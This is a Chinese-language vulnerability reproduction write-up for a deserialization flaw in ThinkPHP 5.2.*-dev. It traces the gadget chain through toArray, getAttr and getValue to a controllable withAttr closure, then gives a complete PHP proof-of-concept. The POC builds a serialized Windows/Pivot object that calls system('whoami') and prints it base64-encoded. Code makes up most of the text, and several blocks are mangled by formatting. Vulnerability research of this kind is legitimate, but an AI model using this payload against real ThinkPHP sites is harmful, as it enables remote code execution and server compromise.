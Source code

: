 ```yaml
---
title: Thinkphp 5.2.*-dev 反序列化漏洞
id: zhfly3178
---
```


# Thinkphp 5.2.*-dev 反序列化漏洞

## 一、漏洞简介

所有Thinkphp版本下载链接

https://packagist.org/packages/topthink/framework

## 二、漏洞影响

## 三、复现过程

### 环境搭建

```
composer create-project topthink/think=5.2.*-dev v5.2 
```

### poc演示截图

![image](../img/9fae507749799ec7d8d1843cc6ee5f62.png)

### 调用链

![image](../img/c5937d782d2ae1e8ad0db3b57de2066b.png)

### 单步调试

可以看到前面的链跟tp5.1.x的一样，这里不在列举，直接进去toArray函数，可以看到$data可控

```
public function toArray(): array
{
。。。
$data = array_merge($this->data, $this->relation); `foreach ($data as $key => $val) {

if ($val instanceof Model || $val instanceof ModelCollection) {

// 关联模型对象

if (isset($this->visible[$key])) {

$val->visible($this->visible[$key]);

} elseif (isset($this->hidden[$key])) {

$val->hidden($this->hidden[$key]);

}

// 关联模型对象

$item[$key] = $val->toArray();

} elseif (isset($this->visible[$key])) {

$item[$key] = $this->getAttr($key);

} elseif (!isset($this->hidden[$key]) && !$hasVisible) {

$item[$key] = $this->getAttr($key);

}

}

。。。` 
```

```
public function getAttr(string $name)
{
    try {
        $relation = false;
        $value    = $this->getData($name);
    } catch (InvalidArgumentException $e) {
        $relation = true;
        $value    = null;
    }

    return $this->getValue($name, $value, $relation);
} 
```

```
public function getData(string $name = null)
   {
       if (is_null($name)) {
           return $this->data;
       }

       $fieldName = $this->getRealFieldName($name);

       if (array_key_exists($fieldName, $this->data)) {
           return $this->data[$fieldName];
           ...
       }
   } 
```

```
protected function getRealFieldName(string $name): string
{
    return $this->strict ? $name : App::parseName($name);  //this->strict默认为true
} 
```

可以看到getAttr函数中的$value可控，那么导致$this->getValue($name, $value, $relation);这里的三个参数都可控，跟进$this->getValue($name, $value, $relation);

```
protected function getValue(string $name, $value, bool $relation = false)
{
    // 检测属性获取器
    $fieldName = $this->getRealFieldName($name);
    $method    = 'get' . App::parseName($name, 1) . 'Attr';

```
if (isset($this-&gt;withAttr[$fieldName])) {
   if ($relation) {
     $value = $this-&gt;getRelationValue($name);
   }

   $closure = $this-&gt;withAttr[$fieldName];
   $value   = $closure($value, $this-&gt;data); 
``` 
```

这里$fieldName、$this->withAttr，导致$closure也可控，最终直接产生RCE。如下图

![image](../img/9ad327227b78ad270b21e31af6652c48.png)

补充：

```
<?php `$a = array();

system(‘whoami’,$a);` 
```

![image](../img/b135dc17065f29ccf075c7c7d8d918b5.png)

![image](../img/2575e19baf4b56d343a181b060ff9327.png)

### poc v5.2.*-dev

```
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {

trait Conversion

{

protected $append = array(“Smi1e” => “1”);

}

```
trait Attribute
{
    private $data;
    private $withAttr = array("Smi1e" =&gt; "system");

    public function get($system)
    {
        $this-&gt;data = array("Smi1e" =&gt; "$system");
    }
} 
```

}

namespace think {

abstract class Model

{

use model\concern\Attribute;

use model\concern\Conversion;

}

} `namespace think\model{

use think\Model;

class Pivot extends Model

{

public function __construct($system)

{

$this->get($system);

}

}

}

namespace{

$Conver = new think\model\Pivot(“whoami”);

$payload = new think\process\pipes\Windows($Conver);

echo base64_encode(serialize($payload));

}

?>` 
```
